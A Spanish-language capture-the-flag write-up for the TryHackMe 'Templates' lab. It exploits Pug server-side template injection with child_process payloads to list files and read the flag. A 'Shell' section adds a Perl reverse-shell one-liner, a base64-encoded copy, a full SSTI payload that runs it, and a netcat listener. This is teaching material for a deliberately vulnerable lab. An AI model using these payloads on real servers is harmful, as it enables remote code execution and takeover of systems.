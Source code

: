 
# Templates

Al iniciar el laboratorio, recibimos el siguiente mensaje.

```
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!

  

Access this challenge by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the  "Start AttackBox" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: [HTTP://10.201.13.29:5000](HTTP://10.201.13.29:5000)
```

Dado que ya tenemos acceso al sitio web que se va a explotar, podemos proceder sin necesidad de realizar una enumeración previa.

Al visitar el sitio web, encontramos el siguiente código:

```
doctype html
head
  title Pug
  script.
    console.log("Pugs are cute")
h1 Pug - node template engine
#container.col
  p You are amazing
  p Pug is a terse and simple templating language.

```

<figure><img src="../.gitbook/assets/Templates/web1.png" alt=""><figcaption></figcaption></figure>

Además, el mensaje de inicio y la página web nos proporcionan pistas sobre el vector de explotación, indicando que se trata de una vulnerabilidad de `PUG` con `SSTI`.

> La inyección de la plantilla del lado del servidor (SSTI) ocurre cuando un atacante puede inyectar código malicioso en una plantilla del lado del servidor, lo que hace que el servidor ejecute comandos arbitrarios. En el contexto de JavaScript, las vulnerabilidades SSTI pueden surgir al usar motores de plantilla del lado del servidor como manillares, EJ o PUG, donde la entrada del usuario se integra en plantillas sin desinfectación adecuada.

Puedes ver los payloads de `SSTI` con el siguiente enlace:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/b391de2117d8a62956515772c006f10ac5b2f962/Server%20Side%20Template%20Injection/JavaScript.md?plain=1#L28" %}

Utilizaremos la siguiente inyección:

```
#{7*7}
```

<figure><img src="../.gitbook/assets/Templates/7**7.png" alt=""><figcaption></figcaption></figure>

Como resultado, debemos obtener la resolución de la multiplicación para determinar si es posible inyectar código del lado del servidor.

<figure><img src="../.gitbook/assets/Templates/49.png" alt=""><figcaption></figcaption></figure>

Como se observó anteriormente, es posible ejecutar código del lado del servidor. Para ello, podemos probar varios payloads. Después de un tiempo, notamos que este payload en particular aparece con mayor frecuencia durante nuestros intentos.

```
#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}
```

Debería mostrarnos el listado de archivos en la carpeta o directorio correspondiente. Sin embargo, al ejecutarlo, recibimos el siguiente error.

<figure><img src="../.gitbook/assets/Templates/error.png" alt=""><figcaption></figcaption></figure>

Esto ocurre debido a los permisos necesarios para ejecutar el comando de `process`. Para solucionarlo, simplemente debemos eliminar la palabra `root` del comando, y el payload quedaría de la siguiente manera.

```
#{process.mainModule.require('child_process').spawnSync('ls').stdout}
```

<figure><img src="../.gitbook/assets/Templates/payload.png" alt=""><figcaption></figcaption></figure>

Como podemos ver a continuación, ahora obtenemos el listado de archivos en el directorio actual, donde encontramos el único archivo `flag.txt`.

<figure><img src="../.gitbook/assets/Templates/exito.png" alt=""><figcaption></figcaption></figure>

Al intentar recuperar el archivo utilizando el comando `cat flag.txt`, nos damos cuenta de que no aparece nada. Esto se debe a que, al usar `spawnSync('cat flag.txt')`, estamos intentando pasar todo el comando y sus argumentos como una sola cadena. Este enfoque no funciona como se esperaba, ya que `spawnSync` no divide automáticamente una cadena en un comando y sus argumentos. En su lugar, trata toda la cadena como un único comando, que no puede encontrar y, por lo tanto, no puede ejecutar.

<figure><img src="../.gitbook/assets/Templates/flag-fail.png" alt=""><figcaption></figcaption></figure>

Para solucionar esto con la función `spawnSync `, esta diseñada para ejecutar un comando en el shell y proporcionar un control detallado sobre la entrada y salida del comando. Forma parte del módulo `child_process `de `Node.js`, que `Node.js `permite ejecutar otros procesos en el sistema en el que se está ejecutando.  
  
La firma de la función para `spawnSync` es:

```javascript
spawnSync(command, [args], [options])
```

  
* **command**: Se trata de una cadena que especifica el comando que se va a ejecutar.  
- **args**: Esta es una matriz de argumentos de cadena para pasar al comando.  
- **options**: Este es un parámetro opcional que puede especificar varias opciones, como el directorio de trabajo, las variables de entorno, la entrada, la salida, el tiempo de espera, etc.

Por esto nuestro comando quedaría de la siguiente manera.

```
#{process.mainModule.require('child_process').spawnSync('cat', ['flag.txt']).stdout}
```

Con esto, ya podemos recuperar nuestra bandera.

<figure><img src="../.gitbook/assets/Templates/flagfinal.png" alt=""><figcaption></figcaption></figure>

# Shell

Para obtener una shell dentro del servidor, podemos utilizar el siguiente comando de reverse shell.

```
use Socket;$i="<your-ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

Lo codificamos en `base64`.

```
dXNlIFNvY2tldDskaT0iYXNkIjskcD13ZXc7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307
```

A continuación, utilizaremos el siguiente payload para ejecutarlo, reemplazando el valor de `payload=` con nuestra reverse shell.

```
#{spawn_sync = this.process.binding('spawn_sync')}
#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}}
#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}}
#{payload='<your-Payload>'}
#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
```

Iniciamos Netcat en modo escucha para obtener una reverse shell y, con ello, nuestra bandera.

```
nc -lvnp 4242
```



<figure><img src="../.gitbook/assets/Templates/shell.png" alt=""><figcaption></figcaption></figure>

*********************

>Imagina que al leer un libro no tuvieras la opción de regresar a la página anterior. ¿Con qué cuidado leerías ese libro? 
>
>**Así es la vida:** se vive un día a la vez, pero si no prestas atención y no la disfrutas, no tendrás forma de revivir esos momentos en el futuro, al igual que puedes volver a leer una página que pasaste por alto.

><figure><img src="../.gitbook/assets/Templates/touhou.png" alt=""><figcaption></figcaption></figure>
